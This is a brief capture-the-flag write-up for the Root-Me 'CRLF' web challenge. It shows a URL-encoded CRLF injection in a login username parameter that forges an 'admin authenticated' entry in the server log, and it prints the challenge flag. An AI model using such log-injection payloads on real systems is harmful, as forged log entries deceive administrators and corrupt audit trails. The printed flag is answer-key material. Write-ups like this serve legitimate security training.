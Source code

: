 ```yaml
---
title: CRLF
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, CRLF]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/CRLF](https://www.root-me.org/en/Challenges/Web-Server/CRLF)

## Statement

> Inject false data in the journalisation log.

## Analyzation

We need to write to the log
```
admin authenticated
```

The login form did not prevent the space! When I try ```admin a```, it logs
```
admin a failed to authenticate
```

This is the vuln.

CRLF can be used to force logging a new line.

## Solution

```
/?username=admin%20authenticated.%0d%0aguest&password=a
```

The flag is
```
rFSP&G0p&5uAg1%
```

## Summarization

[CRLF Injection](https://crashtest-security.com/crlf-injection-attack/)